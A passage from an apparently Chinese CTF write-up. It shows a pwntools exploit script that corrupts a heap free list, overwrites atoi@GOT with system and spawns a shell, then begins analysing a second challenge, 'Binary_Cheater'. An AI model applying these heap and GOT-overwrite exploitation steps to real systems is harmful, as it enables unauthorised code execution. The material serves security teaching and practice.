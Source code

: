 ```
Free(1)

#reverse overflow
exp = p64(0x20)
exp+= p64(0x4043b0)         #free_list = &amp;free_list
exp = exp.ljust(0x30-1, 'B')
exp+= '\n'
Gain(2, 0x110, exp)     #free_list-&gt;chunk1-&gt;atoi@GOT

#control PtrArr
Gain(3, 0x10, 'B'*0x10)

exp = p64(0x4040b8)     #aoti@GOT
exp+= '\n'
Gain(4, 0x4043b0-0x10, exp) #size = &amp;free_list-0x10

#leak addr
Show(0)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-libc.symbols['atoi']
Log('libc.address')

#control GOT
Edit(0, p64(libc.symbols['system'])+'\n')

#getshell
Cmd('aaaa(/bin/sh);')

sh.interactive()

'''
mem stat: telescope 0x4043A0
'''
```

### <a class="reference-link" name="%E6%80%BB%E7%BB%93"></a>总结
- read读入含有不可写区域时会返回-1
- no PIE出了直接打GOT, 还要考虑bss上的指针数组


## Binary_Cheater

[![](https://p1.ssl.qhimg.com/t014e86f42d454ff86e.png)](https://p1.ssl.qhimg.com/t014e86f42d454ff86e.png)
- 2.32的libc
- 禁用了execve
[![](https://p1.ssl.qhimg.com/t018441558a08276a0e.png)](https://p1.ssl.qhimg.com/t018441558a08276a0e.png)

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析
- 虽然后执行流混淆, 但是程序本身比较简单, 影响不大, 可以直接看
<li>每次循环都会
<ul>
- 检查**malloc_hook与**free_hook是否为0
- 清空tcache chunk- 最多16个
- 0x410&lt;=size&lt;=0x450
- ptr = calloc(1, size)
<li>记录信息
<ul>
- PtrArr[idx] = ptr
- SizeArr[idx] = size
- UsedArr[idx] = 1- 没有检查UsedArr